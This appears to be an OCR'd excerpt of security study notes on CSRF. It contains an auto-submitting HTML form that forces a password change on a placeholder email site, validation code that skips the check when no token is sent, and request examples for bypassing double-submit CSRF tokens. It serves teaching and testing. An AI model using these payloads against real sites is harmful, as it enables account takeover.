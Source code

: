         ```html
        POST /password_change
        Host: email.example.com
        Cookie: session_cookie=YOUR_SESSION_COOKIE
        (POST request body)
        new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
        ----------------------------------
        <html>
         <form method="POST" action="<https://email.example.com/password_change>" id"csrf-form">
         <input type="text" name="new_password" value="abc123">
         <input type="text" name="csrf_token" value="871caef0757a4ac9691aceb9aad8b65b ">
         <input type='submit' value="Submit">
        </form>
         <script>document.getElementById("csrf-form").submit();</script>
        </html>
        --------------------------------------------------------------
        ## Expected Code
        def validate_token():
         if request.csrf_token:
        	 if (request.csrf_token in valid_csrf_tokens):
        			 pass
        	 else:
        		 throw_error("CSRF token incorrect. Request rejected.")
        [...]
        def process_state_changing_action():
        	 validate_token()
        	 execute_action()
        ```
        
    - **Bypass Double submit CSRF tokens**
        
        ```python
        # Valid 
        POST /password_change
        Host: email.example.com
        Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=871caef0757a4ac9691aceb9aad8b65b
        (POST request body)
        new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
        --------------------------
        # Invalid
        POST /password_change
        Host: email.example.com
        Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=1aceb9aad8b65b871caef0757a4ac969
        (POST request body)
        new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
        ---------------------------------------
        # Bypass 
        POST /password_change
        Host: email.example.com
        Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=not_a_real_token
        (POST request body)
        new_password=abc123&csrf_token=not_a_real_token
        ```
        